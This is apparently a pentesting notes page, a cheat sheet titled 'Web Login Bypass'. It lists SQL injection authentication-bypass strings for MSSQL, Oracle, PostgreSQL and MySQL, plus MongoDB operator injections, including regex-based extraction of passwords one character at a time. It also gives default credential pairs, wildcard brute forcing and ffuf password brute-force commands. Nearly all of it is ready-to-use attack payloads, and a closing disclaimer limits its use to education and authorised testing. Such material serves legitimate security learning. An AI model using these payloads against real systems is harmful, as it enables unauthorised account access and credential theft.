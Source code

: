 ```yaml
---
title: WEB LOGIN BYPASS
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```


# SQL INJECTION     
```
admin' or '1'='1
```
# Microsoft, Oracle, PostgreSQL
```
admin'--
admin' or 1=1--
admin' or '1'='1'--

admin}" or 1=1--
```
# MySQL
```
admin'-- -
admin'#

admin' or 1=1#
admin' or 1=1-- -

admin' or '1'='1'-- -
admin' or '1'='1'#

admin}" or 1=1-- -
```
# NoSQL Injection
`MONGO`
```
admin' || 1==1//
admin' || 1==1%00
admin' || '1==1
admin' || '1'=='1
```
* Operators

```js
# $ne: Not equal
username[$ne]=xyz&password[$ne]=xyz

# $regex: Regular expressions
username[$regex]=.*&password[$regex]=.*
username[$regex]=^xyz&password[$regex]=^xyz
username[$regex]=^a.*$&password[$ne]=xyz
username[$regex]=.{6}&password[$ne]=xyz
username[$regex]=^.{1}&password[$regex]=^.{1} # Length of values

# $exists: Exists in the database
username[$exists]=true&password[$exists]=true

# $nin: Not include
username[$nin][admin]=admin&password[$ne]=xyz
# If we found the "admin" exists, we can exclude "admin" by specifying $nin operator.
username[$nin][]=admin&password[$ne]=xyz
# If more users are found, we can exclude the user.
username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz

# $gt: Greater than
username[$gt]=s&password[$gt]=s
# $lt: Lower than
username[$lt]=s&password[$lt]=s

# Combinations
username[$ne]=xyz&password[$regex]=.*
username[$exists]=true&password[$ne]=xyz
username[$ne]=xyz&password[$exists]=true
username[$regex]=.*&password[$ne]=xyz
username[$ne]=xyz&password[$regex]=.*
username[$regex]=.{6}&password[$ne]=xyz
```

After finding usernames, we can also obtain the passwords using the “$regex” operator as the following example.

```js
# Check if the password length is 7 characters.
username=admin&password[$regex]=^.{7}$
# If not, change 7 to 6 (or 8 or something number).
username=admin&password[$regex]=^.{6}$
# If the number of characters turns out to be 6, brute force the character one by one.
username=admin&password[$regex]=^a.....$
username=admin&password[$regex]=^s.....$
username=admin&password[$regex]=^se....$
username=admin&password[$regex]=^sec...$
```
* Operators in Json

If the above payloads not working, try changing to a json format.
We also need to change the value of the Content-Type to “application/json” in the HTTP header.

```js
Content-Type: application/json

{"username": { "$ne": "xyz" }, "password": { "$ne": "xyz" }}
```
# Default Credentials
```
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```
# Wildcard Brute Force
If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.
```
username = *
password = *
```
For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.
```
username=%s*&password=*
# or
username=*&password=%s*
```
My favorite wordlist for it is the seclists:

* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt

# Brute Force Credentials
Before brute forcing, we need wordlists used for it.

* Rockyou : https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz

* SecLists : https://github.com/danielmiessler/SecLists 

* CeWL : https://github.com/digininja/CeWL

Generate the custom wordlist from the target web page.
```
cewl https://vulnerable.com > scraped_words.txt
```
# Ffuf
```js
# -fc: Filter HTTP status code
ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401

# Basic Auth
ffuf -u https://admin:FUZZ@example.com/ -w wordlist.txt -fc 401
```
# REFERENCE
* https://tryhackme.com/room/nosqlinjectiontutorial

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```
